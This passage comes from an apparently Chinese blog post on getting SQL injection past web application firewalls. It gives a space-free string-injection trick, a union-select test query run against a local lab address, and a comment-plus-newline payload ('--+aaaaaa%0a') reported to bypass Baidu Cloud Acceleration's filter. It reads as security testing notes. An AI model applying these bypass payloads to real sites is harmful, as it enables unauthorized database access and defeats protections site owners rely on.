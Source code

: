 ![image](/images/posts/sql-injection-fuck-waf/1.png)
另外在字符型中 'and'1'='1是不需要加空格的，有时候也可以绕过一些waf判断
![image](/images/posts/sql-injection-fuck-waf/2.png)

### 0x2 bypasswaf
由于mysql的灵活性，这里以mysql绕过为主，针对各大主流waf厂商进行一个测试，主要测试在线版的，本地就安装了一个360主机卫士。
其中http://192.168.44.132/mysql.php?id=1是我本地的一个测试环境  
其中下面的绕过都是以fuzz为主，不考虑web容器的特性，尝试绕过联合查询 -1 union select 1，2，3 from dual  
- 百度云加速bypass  
union select    #filter  
from dual   #not filted  
select from dual    #filter  
只需要绕过select即可 使用--+aaaaaa%0a可bypass  